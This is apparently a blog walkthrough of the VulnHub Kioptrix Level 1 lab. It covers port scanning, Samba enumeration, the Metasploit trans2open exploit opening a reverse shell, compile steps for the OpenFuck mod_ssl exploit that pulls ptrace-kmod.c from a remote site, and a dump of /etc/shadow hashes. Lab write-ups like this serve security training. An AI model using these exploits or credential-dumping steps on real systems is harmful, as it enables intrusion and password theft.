 ```yaml
---
layout: post
title: "Kioptrix: Level 1"
date: 2015-05-10 13:34:07 +0200
comments: true
categories: [vulnhub, kioptrix]
---
```

Image: [Kioptrix: Level 1 (#1)](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

Nmap output:
{% codeblock %}
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/http    Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
1024/tcp open  status      1 (RPC #100024)
{% endcodeblock %}

Enumeration of Samba:
{% codeblock %}
root@kali32:/usr/share/exploitdb# nmblookup -A 192.168.0.26
Looking up status of 192.168.0.26
        KIOPTRIX        <00> -         B <ACTIVE> 
        KIOPTRIX        <03> -         B <ACTIVE> 
        KIOPTRIX        <20> -         B <ACTIVE> 
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
        MYGROUP         <00> - <GROUP> B <ACTIVE> 
        MYGROUP         <1d> -         B <ACTIVE> 
        MYGROUP         <1e> - <GROUP> B <ACTIVE> 

        MAC Address = 00-00-00-00-00-00

root@kali32:/usr/share/exploitdb# smbclient -L\\ -I 192.168.0.26
Enter root's password: 
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX
{% endcodeblock %}

The service is running with the root privileges and we can use exploit in Metasploit to obtain root account:
{% codeblock %}
msf > use exploit/linux/samba/trans2open
msf exploit(trans2open) > setg RHOST 192.168.80.141
RHOST => 192.168.80.141
msf exploit(trans2open) > exploit

[*] Started reverse handler on 192.168.80.137:4444
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Command shell session 1 opened (192.168.80.137:4444 -> 192.168.80.141:1026) at 2015-04-27 06:43:53 +0200
{% endcodeblock %}

Because Apache is vulnerable, there is another solution. Nikto reports something interesting:
{% codeblock %}
mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. CVE-2002-0082, OSVDB-756.
{% endcodeblock %}

Web server signature:
{% codeblock %}
Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
{% endcodeblock %}

In exploitdb we find:
{% codeblock %}
Apache OpenSSL - Remote Exploit (Multiple Targets) (OpenFuckV2.c) | /linux/remote/764.c
{% endcodeblock %}

Because the exploit is pretty old, we need to update it with these [steps](https://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/):
{% codeblock %}
#include <openssl/rc4.h>
#include <openssl/md5.h>
...
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
...
# gcc -o OpenFuck 764.c -lcrypto
{% endcodeblock %}

Finally we run the exploit and cat /etc/shadow with the root privileges.
{% codeblock %}
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
bin:*:14513:0:99999:7:::
daemon:*:14513:0:99999:7:::
adm:*:14513:0:99999:7:::
lp:*:14513:0:99999:7:::
sync:*:14513:0:99999:7:::
shutdown:*:14513:0:99999:7:::
halt:*:14513:0:99999:7:::
mail:*:14513:0:99999:7:::
news:*:14513:0:99999:7:::
uucp:*:14513:0:99999:7:::
operator:*:14513:0:99999:7:::
games:*:14513:0:99999:7:::
gopher:*:14513:0:99999:7:::
ftp:*:14513:0:99999:7:::
nobody:*:14513:0:99999:7:::
mailnull:!!:14513:0:99999:7:::
rpm:!!:14513:0:99999:7:::
xfs:!!:14513:0:99999:7:::
rpc:!!:14513:0:99999:7:::
rpcuser:!!:14513:0:99999:7:::
nfsnobody:!!:14513:0:99999:7:::
nscd:!!:14513:0:99999:7:::
ident:!!:14513:0:99999:7:::
radvd:!!:14513:0:99999:7:::
postgres:!!:14513:0:99999:7:::
apache:!!:14513:0:99999:7:::
squid:!!:14513:0:99999:7:::
pcap:!!:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
{% endcodeblock %}
